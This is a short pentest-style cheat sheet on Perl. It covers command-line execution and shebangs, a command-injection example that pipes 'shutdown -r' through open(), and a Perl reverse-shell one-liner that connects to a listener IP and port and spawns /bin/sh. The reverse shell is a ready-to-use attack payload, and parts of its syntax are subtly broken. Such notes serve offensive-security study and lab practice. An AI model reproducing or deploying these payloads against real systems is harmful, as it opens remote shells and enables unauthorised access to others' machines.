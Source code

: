 # Perl

Executing command line `perl` scripting requires `-e` flag for executing, without drop to a perl environment that does not save to a file:
```bash
perl -e 'your perl goes here'
perl
...
```

Perl scripts require the file extension .pl and can be executed from the command line like other script languages with its own command `perl`
```bash
perl script.pl
```

Linux Script shebang line
```bash
#!/usr/bin/perl
# Then from command line
./script.pl
```

```perl

	# Perl is tab intented

```

 Perl command injection
```perl
# function is vulnerable and can be used to execute commands
open() 
# For example
open(“| shutdown -r |”)
```

Perl Reverse Shell 
```perl
# perl -e 'use Socket;$i="$ENV{10.10.14.52}";$p=$ENV{8000};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

use Socket;$i="$ENV{10.10.10.10}";$p=$ENV{1337};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## References

[haax.fr perl](https://cheatsheet.haax.fr/linux-systems/programing-languages/perl/)
[apache - Perl Code Style Guides](https://cwiki.apache.org/confluence/display/VCL/Perl+Code+Style+Guidelines)